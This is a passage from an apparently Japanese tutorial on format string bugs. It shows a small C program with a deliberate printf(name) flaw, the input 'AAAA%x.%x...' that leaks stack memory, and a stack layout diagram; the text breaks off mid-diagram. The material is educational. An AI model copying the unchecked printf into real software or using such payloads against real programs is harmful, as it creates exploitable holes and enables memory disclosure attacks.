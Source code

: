     printf("[debug]addr of score \= %x\n", &score);
    printf("[debug]addr of payload \= %x\n", &payload[0]);

    strcpy(name, argv[1]);

    //game routine

    printf("Score of ");
    printf(name);
    printf(" is %d(%x)!!\n", score, score);

    return 0;
}
\-\-\-\-\-

　このコードをコンパイルし、実行すると次のようになります。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe Defolos
[debug]addr of score \= bffff9ac
[debug]addr of payload \= bffff970
Score of Defolos is 0(0)!!
\-\-\-\-\-

　しかしながら、見てのとおり「printf(name);」の部分にフォーマットストリン
グバグが存在しています。ここで次のように、変換指定文字を含む文字列をユー
ザ名として与えるとメモリ内が閲覧できてしまいます。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
[debug]addr of score \= bffff98c
[debug]addr of payload \= bffff950
Score of AAAAbffffb6b.1.bffff8c4.4d532038.532050.b7eb116c.1.41414141.252e7825.78252e78 is 0(0)!!
\-\-\-\-\-

　注目していただきたいのは「41414141」の部分です。この41の連続はフォーマ
ットストリングの開始部分を表しているのです。このときのメモリは次のような
レイアウトになっています。

[stack]
0x00\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-low
    nameへのアドレス                                   ↑
0x04\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-     |
    SFP(bffffb6b)                                      |printf()
0x08\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-     |
    ???(1)                                             |
0x0c\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-     |
    SEIP(bffff8c4)                                     |
0x0c\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-     ↓
    ????(4d532038)
0x10\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
    ????(532050)
0x14\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
    ????(b7eb116c)
0x18\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-      ↑
    starge(1)                                           |
0x1c\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-      |
    name[150]\="AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x"       |
0xb4\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-      |
    payload[32]                                         |